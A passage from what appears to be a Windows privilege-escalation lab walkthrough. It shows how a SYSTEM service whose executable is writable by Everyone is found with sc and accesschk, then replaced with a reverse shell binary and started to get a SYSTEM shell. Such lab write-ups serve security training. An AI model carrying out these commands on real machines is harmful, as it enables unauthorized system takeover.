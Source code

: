```console
C:\Users\user> net start regsvc
```

### Service Exploit - Insecure Service Executables

For this exploit, we'll make use of the `filepermsvc` service. (it runs with SYSTEM privileges)

Starting off with the usual recon:

```console
C:\Users\user> sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\user> C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

That's one _big_ flaw, having `RW Everyone` in there means that literally _anyone_ can read/write into this service. We can just copy our reverse shell executable to `C:\Program Files\File Permissions Service\filepermservice.exe` and start the service to get a reverse shell with SYSTEM privileges.

(Be sure to start a listener on your machine to receive the connection)

```console
C:\Users\user> copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.

C:\Users\user> net start filepermsvc
```
